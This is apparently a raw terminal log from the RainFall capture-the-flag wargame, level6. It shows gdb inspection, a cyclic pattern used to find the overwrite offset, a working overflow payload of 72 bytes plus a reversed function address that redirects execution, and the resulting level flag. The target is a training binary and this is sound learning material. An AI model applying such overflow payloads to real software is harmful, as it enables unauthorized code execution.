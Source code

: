 (gdb) info functions
All defined functions:

Non-debugging symbols:
0x080482f4  _init
0x08048340  strcpy
0x08048340  strcpy@plt
0x08048350  malloc
0x08048350  malloc@plt
0x08048360  puts
0x08048360  puts@plt
0x08048370  system
0x08048370  system@plt
0x08048380  __gmon_start__
0x08048380  __gmon_start__@plt
0x08048390  __libc_start_main
0x08048390  __libc_start_main@plt
---Type <return> to continue, or q <return> to quit---
0x080483a0  _start
0x080483d0  __do_global_dtors_aux
0x08048430  frame_dummy
0x08048454  n
0x08048468  m
0x0804847c  main
0x080484e0  __libc_csu_init
0x08048550  __libc_csu_fini
0x08048552  __i686.get_pc_thunk.bx
0x08048560  __do_global_ctors_aux
0x0804858c  _fini
(gdb) q
level6@RainFall:~$ ./level6 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAaAAAAAAAAAAAAAAAAAAAAaaa
Segmentation fault (core dumped)
level6@RainFall:~$ ./level6 
Segmentation fault (core dumped)
level6@RainFall:~$ gdb ./level6 
GNU gdb (Ubuntu/Linaro 7.4-2012.04-0ubuntu2.1) 7.4-2012.04
Copyright (C) 2012 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "i686-linux-gnu".
For bug reporting instructions, please see:
<http://bugs.launchpad.net/gdb-linaro/>...
Reading symbols from /home/user/level6/level6...(no debugging symbols found)...done.
(gdb) r
Starting program: /home/user/level6/level6 

Program received signal SIGSEGV, Segmentation fault.
0xb7eb8aa8 in ?? () from /lib/i386-linux-gnu/libc.so.6
(gdb) Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0^C1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7
Quitf9Ag0Ag1Ag2Ag3Ag4Ag5Ag
(gdb) r Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/user/level6/level6 Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag

Program received signal SIGSEGV, Segmentation fault.
0x41346341 in ?? ()
(gdb) q
A debugging session is active.

        Inferior 1 [process 7380] will be killed.

Quit anyway? (y or n) y
level6@RainFall:~$ python -c 'print "A"*72 + "08048454"[::-1]' 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA45484080
level6@RainFall:~$ echo python -c 'print "A"*72 + "08048454"[::-1]' 
python -c print "A"*72 + "08048454"[::-1]
level6@RainFall:~$ echo $(python -c 'print "A"*72 + "08048454"[::-1]') 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA45484080
level6@RainFall:~$ echo $(python -c 'print "A"*72 + "\x08\x04\x84\x54"[::-1]') 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAT�
level6@RainFall:~$ ./level6 $(python -c 'print "A"*72 + "\x08\x04\x84\x54"[::-1]') 
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d